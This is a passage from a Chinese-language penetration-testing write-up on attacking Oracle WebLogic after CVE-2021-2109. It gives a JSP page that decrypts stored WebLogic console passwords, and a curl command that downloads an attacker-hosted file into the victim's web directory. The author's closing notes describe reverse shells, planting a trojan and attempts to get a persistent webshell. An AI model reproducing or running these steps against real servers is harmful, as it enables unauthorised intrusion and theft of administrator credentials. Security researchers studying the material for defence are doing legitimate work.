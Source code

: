 #### 第二步：编辑解密文件，并放在另外一台 linux 上，并开启 http 服务

下载地址：

Tools7-get_wls_pwd2

```
<%@page pageEncoding="utf-8"%>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*"%>
<%
   EncryptionService es = null;
   ClearOrEncryptedService ces = null;
    String s = null;
    s="{AES}jZaFirdpzkH727wJt82Xc0QtuHsEuMsvyqcLkjRz/vY=";
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
       out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null) {
        out.println("\nDecrypted Password is:" + ces.decrypt(s));
    }
%>
```

#### 第三步：通过 curl 下载到被攻击机器的 web 目录下

```
curl -o /target/webpath/filename http://xxx.xxx.xxx.xxx.:8080/1.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknSltDPytDsFiaEtyVgrPdLp8icNfWVymBY7NpHVamlDoGnkTXZ5t73svg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknGVibnQ4FSC8MeQkVehjl7nHeKfn9mRu0NlsyjqgZ8X6dxaX1IyC7aRw/640?wx_fmt=png)

#### 第四步：访问 url 查看密码

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknVia31Ppdtc4lLfcNswxpxkcYTSWGXPSsDuvW0A5kRccBFFfH2LsQ0cg/640?wx_fmt=png)

### 思考 & 小总结

这个漏洞研究了两三天，前期反弹 shell 挺顺利的，但是遇到其他问题了。文章算是做个笔记总结，如有错误，请指正。

1.  深入系列二中，尝试解密 weblogic 账号密码出了问题，有的环境会因为`SerializedSystemIni.dat`文件为二进制文件，直接使用浏览器下载可能遭到破坏（但是我也尝试 tar 打包下载出来，但是文件也出问题了），所以我在深入系列四中换了另外一种思路进行解密。
    
2.  碰到的实战中把`SerializedSystemIni.dat`文件和下载马子到 web 目录后，通过 web 无法访问到，这样的话深入系列四也无法进行。因此当 web 目录无法访问的时候，想要解密 console 的密码或者拿到 webshell 就比较难了。等后续有时间了会继续摸索其他方法，尝试获取到 webshell（因为反弹的 shell 不持久....）
    

### 参考文章

1.http://wiki.peiqi.tech/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Weblogic/Weblogic%20LDAP%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-2109.html?h=cve-2021-2109
